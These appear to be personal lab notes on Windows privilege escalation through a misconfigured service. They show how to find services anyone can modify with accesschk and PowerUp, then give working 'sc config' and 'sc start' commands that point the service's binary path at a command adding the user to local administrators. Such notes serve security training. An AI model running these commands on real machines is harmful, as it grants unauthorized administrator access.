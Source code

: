 if we see the command given we can see have a binary `daclsvc` that we have read write permissions
-vwc = verbose,writable,service 
everyone = everyone on the computer
`C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc Everyone *`
![[escalation-via-binary paths-1.png]]
If we see the output of powerUp.ps1 we can see that 


![[escalation-via-binary paths-2.png]]

we see our binary and we have the permission to restart the service 
and 
if we do 
`C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc`
![[escalation-via-binary paths-3.png]]

as we can see RW Everyone this means our user/group (non privilefed) has the permission to read write 
RW BUILTIN\Admin means that admin group also has the permissions to change 

if we query the service 
`sc qc daclsvc`
![[escalation-via-binary paths-4.png]]
we can see the complete path of that service 

**Exploitation**

from the 3rd screenshot we can see that we have the permissions to change the configuration files lets change that get malicious with that 

using the command 
`sc config daclsvc binpath= "net localgroup administrators user /add"`

then if just start the service using `sc start daclsvc` we can just abuse and add our user to administrators

